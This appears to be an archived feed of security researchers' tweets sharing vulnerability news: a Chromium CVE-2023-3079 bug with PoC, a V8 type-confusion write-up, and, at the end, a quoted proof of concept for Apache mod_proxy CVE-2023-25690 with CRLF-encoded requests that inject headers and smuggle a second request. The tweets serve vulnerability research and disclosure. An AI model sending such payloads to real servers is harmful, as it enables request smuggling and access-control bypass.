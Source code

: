 
# hosselot
**https://twitter.com/hosselot/status/1700228420620190042 _at 2023-09-08, 19:23:38_**
<blockquote>
The Chromium bug entry is now open with a PoC (CVE-2023-3079):
https://t.co/FlqP95rvWN
</blockquote>

* https://bugs.chromium.org/p/chromium/issues/detail?id=1450481

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>58</code></td>
</tr></table>

---

# alisaesage
**https://twitter.com/alisaesage/status/1699702365337870413 _at 2023-09-07, 08:33:17_**
<blockquote>
More good stuff on Chrome RCE vuln research: @bjrjk wrote a super deep dive analysis of CVE-2022-4262, a non-trivial type confusion in v8 JavaScript engine which I reverse-engineered from patch early this year and briefly covered in my PHDays talk in May:  https://t.co/lhWuQPXngG…
</blockquote>

* https://github.com/bjrjk/CVE-2022-4262/blob/main/CVE-2022-4262.md

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>122</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1699232831883628673 _at 2023-09-06, 01:27:31_**
<blockquote>
[PoC] [CVE-2023-25690] Apache HTTP Server mod_proxy vul

CLRF Injection
GET /categories/1%20HTTP/1.1%0d%0aFoo:%20baarr HTTP/1.1
Host: 

Header Injection
GET /categories/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/SMUGGLED HTTP/1.1
Host: 1.1.1.1
